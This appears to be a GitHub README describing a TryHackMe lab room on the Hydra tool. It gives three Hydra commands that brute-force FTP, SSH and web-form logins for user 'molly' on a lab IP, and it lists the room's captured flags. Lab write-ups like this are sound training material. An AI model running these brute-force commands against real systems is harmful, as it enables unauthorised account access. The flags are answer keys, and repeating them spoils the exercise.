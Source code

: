 ## 🛡️ TryHackMe Room - Hydra Brute-Force

My hands-on experience using **Hydra**, a powerful tool for brute-forcing credentials across multiple protocols including SSH, FTP, HTTP, and more. This project highlights my ability to analyze login mechanisms, craft attack strategies, and extract flags from deployed machines.

---

**Use Cases:**
- Brute-force SSH, FTP, and web form credentials
- Multi-threaded attacks for speed
- Custom wordlists and username lists

---

### 🔧 Tools & Environment

- **Hydra** – Network login cracker
- **rockyou.txt** – Popular password wordlist
- **Linux CLI** – Command-line execution
- **Browser Dev Tools** – For inspecting web form requests
- **Target IP** – `10.10.112.60`

---

### ⚔️ Attack Scenarios

#### 1️⃣ FTP Brute Force

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt ftp://10.10.112.60
```

- Protocol: FTP
- Username: `molly`
- Wordlist: `rockyou.txt`

#### 2️⃣ SSH Brute Force

```bash
hydra -l molly -P passwords.txt 10.10.112.60 -t 4 ssh
```

- Protocol: SSH
- Username: `molly`
- Threads: 4
- Wordlist: `passwords.txt`

#### 3️⃣ Web Form (POST) Brute Force

```bash
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.112.60 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

- Protocol: HTTP POST
- Login page: `/`
- Failure string: `F=incorrect`
- Verbose output enabled

---

### 🏁 Flags Captured

| Target | Method | Flag |
|--------|--------|------|
| Molly's Web Login | HTTP POST Form | `THM{2673a7dd116de68e85c48ec0b1f2612e}` |
| Molly's SSH Login | SSH Protocol | `THM{c8eeb0468febbadea859baeb33b2541b}` |

---

### 📚 Key Takeaways

- Hydra supports multiple protocols including FTP, SSH, and HTTP
- Understanding form structure and failure responses is critical for web brute-forcing
- Threading (`-t`) improves speed but must be balanced with server load
- Using verbose mode (`-V`) helps monitor progress and debug issues

---

### 🚀 Future Goals

- Automate brute-force workflows with Bash scripting
- Integrate Hydra with reporting tools for audit logs
- Explore advanced Hydra modules and plugins

---

### 🤝 Let’s Connect

If you're working on similar red team or penetration testing projects, feel free to fork this repo, share feedback, or collaborate!


